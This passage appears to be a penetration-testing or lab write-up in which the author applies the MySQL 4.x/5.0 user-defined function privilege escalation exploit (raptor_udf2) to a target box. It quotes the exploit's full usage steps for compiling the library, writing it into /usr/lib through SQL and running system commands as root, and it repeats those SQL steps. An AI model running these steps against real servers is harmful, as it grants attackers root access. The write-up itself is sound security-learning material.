 Exploit: `- MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c` 

I downloaded locally and began inspecting the source:

     Usage:
     * $ id
     * uid=500(raptor) gid=500(raptor) groups=500(raptor)
     * $ gcc -g -c raptor_udf2.c
     * $ gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
     * $ mysql -u root -p
     * Enter password:
     * [...]
     * mysql> use mysql;
     * mysql> create table foo(line blob);
     * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
     * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
     * mysql> create function do_system returns integer soname 'raptor_udf2.so';
     * mysql> select * from mysql.func;
     * +-----------+-----+----------------+----------+
     * | name      | ret | dl             | type     |
     * +-----------+-----+----------------+----------+
     * | do_system |   2 | raptor_udf2.so | function |
     * +-----------+-----+----------------+----------+
     * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
     * mysql> \! sh
     * sh-2.05b$ cat /tmp/out
     * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
     * [...]
     *
     * E-DB Note: Keep an eye on https://github.com/mysqludf/lib_mysqludf_sys
     


while attempting to compile the raptor_udfs.so it would not compile on the box as so I compiled it locally and sent to box.

error recieved:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551913689274_image.png)


after compiled locally and sent:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551913641300_image.png)



 login to MySQL server with prior credentials 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551913856677_image.png)

    show tables
    create table foo(line blob);
    insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
    select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
